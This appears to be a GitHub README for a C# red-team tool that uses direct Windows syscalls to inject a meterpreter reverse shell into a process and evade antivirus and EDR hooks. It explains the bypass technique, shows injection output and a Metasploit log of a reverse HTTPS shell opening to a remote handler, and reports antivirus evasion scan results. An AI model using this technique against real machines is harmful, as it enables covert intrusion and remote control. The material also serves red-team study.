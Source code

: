 # System Calls
An example of using Windows System Calls (syscalls) in C# to inject a meterpreter shell.

# Introduction
This code is based on the excellent [Red Team Tactics: Utilizing Syscalls in C#](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/) primer by **Jack Halon**, explaining the use of 'System Calls in windows malware for post-exploitation activities, as well as for the bypassing of EDR or Endpoint Detection and Response'. I recommend reading it, it's not an easy subject, but well worth the effort!

Some anti-malware products, such as Bit Defender inject user mode hooks in `ntdll.dll` when new processes are created. This means that whenever APIs such as `NtCreateThreadEx` are called in `ntdll.dll` Bit Defender intercepts the call, does its scanning, then returns execution to the thread (or more likely if there is a meterpreter payload, spoils the fun and kills the process).

If we use syscalls directly we can avoid the hooks, and effectively bypassing the anti-malware scan.

I updated the code to include dynamic syscall resolution, based upon the article [Dynamically resolving syscalls in C#](https://fgsec.net/posts/Dynamically-resolving-syscalls-in-CSharp/) by **FGSec**.

# Codez
If you just want to dig in to the code, go here:

[Native.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Native.cs) - Native imports/structs from Win32 APIS

[Syscalls.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) - The sycall implementation.

[Program.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Program.cs) - The main routine.


# Important
~~Syscall codes can and do change between operating systems. You must change the the codes in the [Syscalls class](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) to match those of your target.~~ Dynamically resolving syscalls fixes this.

Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] Base Address of ntdll is 0x7FFE23450000
[+] Target PID is 40140
[+] Syscall NtOpenProcess on 40140
[+] Return, NTSTATUS=Success, hProcess=0x2F4
[+] Syscall NtAllocateVirtualMemory on 0x2F4
[+] Return, NTSTATUS=Success, baseAddress=0x1D2A9120000
[+] Syscall NtWriteVirtualMemory to 0x1D2A9120000
[+] Return, NTSTATUS=Success, bytesWritten=0x736
[+] Syscall NtProtectVirtualMemory on 0x1D2A9120000
[+] Return, NTSTATUS=Success
[+] Syscall NtCreateThreadEx to 0x1D2A9120000
[+] Return, NTSTATUS=Success, hThread=0x896
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: bprg2hzm) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:58551) at 2021-10-05 12:53:47 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=2kut9uVkyXQW) on 05/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Syscall_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
